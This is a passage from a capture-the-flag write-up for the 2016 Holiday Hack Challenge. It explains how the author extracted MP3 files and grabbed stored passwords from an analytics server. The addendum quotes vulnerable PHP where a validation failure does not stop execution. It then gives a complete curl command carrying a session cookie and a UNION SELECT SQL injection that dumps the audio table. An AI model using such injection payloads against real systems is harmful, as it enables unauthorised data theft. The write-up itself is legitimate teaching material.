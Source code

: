 Then I ran the report with the saved report functionality, and extracted the hex and decoded it to reveal the other MP3 file.  Based on the filename stored in the report, I saved it to my audio directory with the name discombobulatedaudio7.mp3.  From the query results, we know these are the only 2 MP3s in the audio table, so it seems like it’s time to move on to the next server, but I decided to grab the passwords from the users table by updating the query again, just in case they might be useful later:

![](/img/blog/hhc2016/image_16.png)

#### Addendum: An Unintentional Vulnerability

After finishing all of the challenges, I happened to be looking back at this one when I discovered a 2nd vulnerability, which I suspect was not intended as part of the challenge.  If you notice the file query.php does a number of input validation checks, each looking something like this:

~~~ php?start_inline=1
if(!ctype_alpha($field)) {
  reply(400, "Field name can only contain letters!");
  die();
}
~~~

You’ll notice the reply function sets the HTTP status code and prints a message, then the script dies to prevent further execution.  However, if you look further down (line 178), you’ll discover this check and query construction:

~~~ php?start_inline=1
$type = $_REQUEST['type'];
if($type !== 'launch' && $type !== 'usage') {
  reply(400, "Type has to be either 'launch' or 'usage'!");
}

$query = "SELECT * ";
$query .= "FROM `app_" . $type . "_reports` ";
$query .= "WHERE " . join(' AND ', $where) . " ";
$query .= "LIMIT 0, 100";
~~~

Though it appears the author intended to limit type to the strings ‘launch’ and ‘usage’, the lack of a call to `die()` in the error handler results in the query being executed and results returned anyway!  So we can inject into the type field and steal the mp3 files using a `UNION SELECT` SQL injection:

~~~
curl 'https://analytics.northpolewonderland.com/query.php' -H 'Cookie: AUTH=82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d87e572ba65ce9b6548b3494b6063a30265b71c76884152' -H 'Content-Type: application/x-www-form-urlencoded' --data 'date=2017-01-05&type=usage_reports` LIMIT 0 UNION SELECT id,username,filename,to_base64(mp3),NULL from audio  -- '
~~~
